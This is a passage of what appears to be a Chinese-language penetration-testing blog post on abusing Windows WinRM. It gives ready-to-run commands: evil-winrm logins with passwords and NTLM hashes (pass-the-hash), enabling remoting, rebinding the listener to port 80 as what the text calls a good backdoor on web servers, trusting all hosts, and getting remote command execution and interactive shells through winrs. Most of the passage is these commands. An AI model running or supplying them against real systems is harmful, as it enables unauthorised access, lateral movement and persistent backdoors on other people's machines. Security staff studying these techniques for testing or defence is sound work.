#### 4、使用evil-winrm工具来获取交互式powershell   
```
./evil-winrm.rb -i 192.168.81.185 -u administrator -p 123456
./evil-winrm.rb -i 192.168.81.185 -u administrator@DomainName -p 123456
./evil-winrm.rb -i 192.168.81.185 -u administrator@DomainName -H ntlm-hash
```

{:refdef: style="text-align: center;"}
![evil](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/winrm/evil.png?raw=true) 
{: refdef}

### \#0x04 WinRM相关命令
WinRM状态查询  
```
PS C:\Users\Administrator> Get-WmiObject -Class win32_service | Where-Object {$_.name -like "WinRM"} 
```
WinRM服务开启  
```
winrm quickconfig -q #这条命令运行后会自动添加防火墙例外规则，放行5985端口。
Enable-PSRemoting -Force
```
修改默认端口以实现端口复用，对于部署了WEB服务的目标来说是一个非常好的后门  
```
winrm set winrm/config/Listener?Address=*+Transport=HTTP @{Port="80"}
winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}
```
查看WinRM配置
```
winrm get winrm/config
```
允许所有IP连接
```
winrm set winrm/config/Client @{TrustedHosts="*"}
winrm e winrm/config/listener #查看监听地址和端口
```
远程命令执行
```
C:\Users\Administrator>winrs -r:192.168.86.114 -u:192.168.86.114\administrator -p:123456 whoami
```
获取交互shell
```
C:\Users\Administrator>winrs -r:192.168.86.114 -u:192.168.86.114\administrator -p:123456 cmd
```
